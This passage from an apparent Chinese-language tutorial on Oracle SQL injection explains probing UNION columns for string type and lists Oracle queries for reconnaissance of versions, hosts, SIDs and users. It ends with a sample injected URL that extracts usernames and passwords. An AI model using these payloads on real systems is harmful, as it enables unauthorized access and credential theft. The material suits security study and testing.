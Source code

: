   把每一位的 null 依次用单引号 ’ 引起来，如果报错，则不是字符串类型的列；如果返回正常，则是字符串类型的列，就可以在相应的位置插入查询语句获取信息。

+ 获取敏感信息
  常见的敏感信息如下：

```sql
当前用户权限：SELECT * FROM session_roles
当前数据库版本：SELECT banner FROM sys.v_$version WHERE rownum = 1
服务器出口 IP：用utl_http.request 可以实现
服务器监听 IP：SELECT utl_inaddr.get_host_address FROM dual
服务器操作系统：SELECT member FROM v$logfile WHERE rownum = 1
服务器 SID：SELECT instance_name FROM v$instance
当前连接用户：SELECT SYS_CONTEXT('USERENV', 'CURRENT_USER') FROM dual
```

+ 获取数据库表及其内容
  在得知表的列数之后，可以通过查询元数据的方式查询表名称、列名称，然后查询数据，如：
  `http://www.aaa.org/new.jsp?id=1 UNION SELECT username, password, null FROM users --`
  注意：在查询数据时同样要注意数据类型，否则无法查询，只能一一测试，改变参数的查询位置。
  
  

原文链接：https://blog.csdn.net/weixin_43915762/article/details/87909751
